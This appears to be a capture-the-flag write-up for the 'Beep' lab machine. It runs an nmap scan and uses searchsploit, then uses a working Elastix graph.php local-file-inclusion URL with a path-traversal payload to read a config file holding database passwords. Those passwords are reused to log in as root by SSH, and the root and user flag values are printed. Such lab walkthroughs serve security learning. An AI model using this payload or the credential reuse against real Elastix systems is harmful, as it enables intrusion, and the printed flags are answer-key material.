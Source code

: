 # How to solove ?

## add Lame to /etc/hosts
sudo vim /etc/hosts

## scan on nmap 
`nmap -sC -sV -sT -Pn  10.10.10.7`  


<details><summary>nmap 実行結果</summary> 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-09 22:11 JST
Nmap scan report for 10.10.10.7
Host is up (0.88s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: RESP-CODES UIDL AUTH-RESP-CODE PIPELINING APOP STLS IMPLEMENTATION(Cyrus POP3 server v2) USER TOP EXPIRE(NEVER) LOGIN-DELAY(0)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: X-NETSCAPE MAILBOX-REFERRALS CHILDREN MULTIAPPEND Completed NO ACL BINARY LIST-SUBSCRIBED OK THREAD=REFERENCES URLAUTHA0001 NAMESPACE CONDSTORE LISTEXT THREAD=ORDEREDSUBJECT RIGHTS=kxte IDLE UIDPLUS CATENATE UNSELECT ATOMIC ID RENAME QUOTA LITERAL+ SORT SORT=MODSEQ ANNOTATEMORE IMAP4 IMAP4rev1 STARTTLS
443/tcp   open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2021-02-09T14:25:34+00:00; +1h08m49s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: 1h08m48s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 526.63 seconds
</details>

###  Summary
PORT     STATE  SERVICE       VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/https?
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)

## search exploit 
`searchsploit elastix`
```
 Exploit Title|  Path
------------------------------------------------------------------------
Elastix - 'page' Cross-Site Scripting   | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities   | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection   | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution  | php/webapps/18650.py
------------------------------------------------------------------------
Shellcodes: No Results

```
use Elastix 2.2.0 - 'graph.php' Local File Inclusion | php/webapps/37637.pl

https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

```

30 : AMPDBHOST=localhost  
31 : AMPDBENGINE=mysql  
32 : # AMPDBNAME=asterisk  
33 : AMPDBUSER=asteriskuser  
34 : # AMPDBPASS=amp109  
35 : AMPDBPASS=jEhdIekWmdjE  
36 : AMPENGINE=asterisk  
37 : AMPMGRUSER=admin  
38 : #AMPMGRPASS=amp111  
39 : AMPMGRPASS=jEhdIekWmdjE  
```

user : admin
pass : jEhdIekWmdjE

## try ssh 
└─$ ssh admin@10.10.10.
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1

vim ~/.ssh/config
Host 10.10.*.*
KexAlgorithms +diffie-hellman-group1-sha1

└─$ ssh admin@10.10.10.
admin@10.10.10.7's password: 
Permission denied, please try again.


ssh root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# ls
anaconda-ks.cfg  elastix-pr-2.2-1.i386.rpm  install.log  install.log.syslog  postnochroot  root.txt  webmin-1.570-1.noarch.rpm
[root@beep ~]# cat root.txt 
61e5aad5bb4ca22213ab24809e5dfbf4


[root@beep ~]# cat /home/fanis/user.txt 
fa17c76d469476dfc89e2dfc897345d9
